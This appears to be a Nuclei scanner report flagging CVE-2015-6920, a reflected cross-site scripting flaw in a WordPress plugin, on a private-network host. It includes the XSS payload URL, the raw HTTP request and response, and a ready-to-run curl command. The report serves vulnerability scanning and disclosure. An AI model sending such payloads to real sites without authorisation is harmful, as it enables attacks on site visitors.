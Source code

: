 ### sourceAFRICA <= 0.1.3 - Unauthenticated Cross-Site Scripting (XSS) (CVE-2015-6920) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2015-6920**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/sourceafrica/js/window.php?wpbase=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:19 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | sourceAFRICA <= 0.1.3 - Unauthenticated Cross-Site Scripting (XSS) |
| Authors | daffainfo |
| Tags | cve, cve2015, wordpress, wp-plugin, xss |
| Severity | medium |
| Description | WordPress sourceAFRICA plugin version 0.1.3 suffers from a cross site scripting vulnerability. |
| CVE-ID | [CVE-2015-6920](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2015-6920) |
| CVSS-Score | 0.00 |

**Request**
```http
GET /wp-content/plugins/sourceafrica/js/window.php?wpbase=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.124 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 245
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/sourceafrica/js/window.php?wpbase="></script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://packetstormsecurity.com/files/133371/
- https://nvd.nist.gov/vuln/detail/cve-2015-6920
- http://packetstormsecurity.com/files/133371/wordpress-sourceafrica-0.1.3-cross-site-scripting.html
- https://wpvulndb.com/vulnerabilities/8169

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.124 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/sourceafrica/js/window.php?wpbase=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)